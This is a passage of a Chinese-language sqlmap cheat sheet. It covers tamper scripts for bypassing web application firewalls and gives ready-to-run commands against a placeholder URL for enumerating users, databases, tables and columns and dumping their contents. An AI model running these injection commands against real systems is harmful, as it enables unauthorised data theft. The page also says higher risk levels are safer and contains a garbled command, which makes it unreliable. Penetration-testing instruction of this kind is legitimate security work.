 插件一般都保存在sqlmap目录下的tamper文件夹中，通常用来绕过WAF。

#### 其他参数

```
 --risk 3           #执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全
 --tamper xx.py,cc.py   #防火墙绕过，后接tamper库中的py文件
  --proxy “目标地址″   #使用代理注入
```

 --risk 3           执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全

--threads 10  线程，sqlmap线程最高设置为10

--dump	参数意为转存数据，-C参数指定字段名称，-T指定表名，-D指定数据库名称。如果有数据库关键字需要加上"[]",如[User]。
读取数据后，数据会存到sqlmap/output/下


### 基本步骤

 #获取当前用户名称

```
sqlmap -u "http://XXXXXXX?id=1" --current-user
```

 #获取当前数据库名称

```
sqlmap -u "http://XXXXXXX?id=1" --current-db
```

 #列表名

```
sqlmap -u "http://XXXXXXX?id=1" --tables -D "db_name"
```



 #列字段

```
sqlmap -u "http://XXXXXXX?id=1" --columns -T "tablename" users-D "db_name" -v 0
```



 #获取字段内容

```
sqlmap -u "http://XXXXXXX?id=1" --dump -C "column_name" -T "table_name" -D"db_name" -v 0
```







### 信息获取

#smart 智能 level 执行测试等级

```
sqlmap -u "http://XXXXXXX?id=1" --smart --level 3 --users
```
